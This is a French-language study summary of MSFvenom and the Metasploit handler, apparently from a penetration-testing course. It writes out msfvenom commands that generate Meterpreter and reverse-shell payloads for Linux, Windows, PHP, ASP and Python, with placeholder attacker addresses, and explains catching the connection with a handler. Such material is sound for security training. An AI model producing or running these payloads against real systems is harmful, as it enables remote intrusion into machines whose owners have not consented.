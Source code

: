 Voici un résumé clair et concis de ton texte :

---

### **MSFvenom – Génération de payloads avec Metasploit**

- **MSFvenom** (remplace Msfpayload et Msfencode) permet de créer des **payloads** (charge utile malveillante) pour différents systèmes (Windows, Linux, Android, iOS, etc.) et formats (exe, dll, elf, php, etc.).
    
- Il offre des centaines de payloads, comme des **reverse shells** ou **Meterpreter shells**.
    

---

### **Formats et Encoders**

- On peut générer des payloads en **stand-alone** (exécutable) ou en **format brut** (ex. script Python).
    
- Les **encoders** transforment le code (ex. en Base64), mais ne garantissent pas le contournement d’antivirus.
    

---

### **Exemple – Génération d’un payload PHP**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.X.X -f raw -e php/base64
```

- Génère un fichier PHP malveillant encodé en Base64.
    
- Il faut parfois modifier le fichier (ajouter `<?php` et `?>`).
    

---

### **Handlers**

- Un **handler** (exploit/multi/handler) sert à **écouter** et à **recevoir la connexion inversée** de la victime.
    
- Paramètres à configurer :
    
    - **payload** (même que celui généré)
        
    - **LHOST** (IP attaquant)
        
    - **LPORT** (port choisi)
        
- Une fois lancé, il « attrape » la shell et donne accès à la machine cible.
    

---

### **Exemples de payloads fréquents**

- **Linux (ELF)**
    
    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
    ```
    
- **Windows (EXE)**
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
    ```
    
- **PHP (webshell)**
    
    ```bash
    msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
    ```
    
- **ASP (IIS)**
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
    ```
    
- **Python**
    
    ```bash
    msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
    ```
    

---

👉 **En résumé** :

- MSFvenom génère des payloads adaptés à la cible.
    
- Le payload est configuré avec **LHOST** et **LPORT**.
    
- Un **handler** doit être lancé pour capter la connexion.
    
- Permet d’obtenir un **shell** ou un **Meterpreter** sur la machine cible.
    